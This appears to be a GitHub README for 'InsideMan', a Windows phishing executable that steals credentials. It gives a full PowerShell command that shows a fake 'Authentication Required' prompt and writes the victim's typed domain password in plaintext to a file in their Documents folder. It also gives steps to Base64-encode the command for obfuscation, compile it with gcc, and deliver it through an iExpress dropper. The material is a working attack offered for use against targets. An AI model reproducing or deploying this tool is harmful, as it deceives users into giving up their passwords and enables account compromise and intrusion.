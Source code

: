 InsideMan is an internal Windows phishing executable that utilizes Powershell Get-Credential calls in an attempt to coerce the user into typing thier plaintext password into the prompt. The plaintext password is then written to a file named windows32.txt located in the user's Documents directory. 

This is not a sophisticated attack. Might set off an alarm or two with advanced EDR looking for abnormal powershell calls.

USAGE:

Use gcc to compile the cpp file. gcc.exe insideman.cpp -o insideman.exe

Attach to a dropper with iExpress or upload to target. 

Plaintext password is stored at C:\Users\$user\Documents\windows32.txt on the target machine.

ROLL YOUR OWN:

1). Open Powershell and copy the command below (Change text/output path as needed for specific pretexts):

$str= '$sessionCredential = $host.ui.PromptForCredential("Authentication Required", "Please Enter Your Domain Username and Password:", "$env:UserDomain\$env:USERNAME", ""); $mpass = [System.Net.NetworkCredential]::new("",$sessionCredential.password).Password; $user = $env:USERNAME; $mpass > C:\\Users\user\Documents\windows32.txt'

2.) Translate To Base64

[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

3.) Paste Base64 Output to Base64 String In InsideMan.cpp

4.) Compile 

gcc.exe insideman.cpp -o insideman.exe
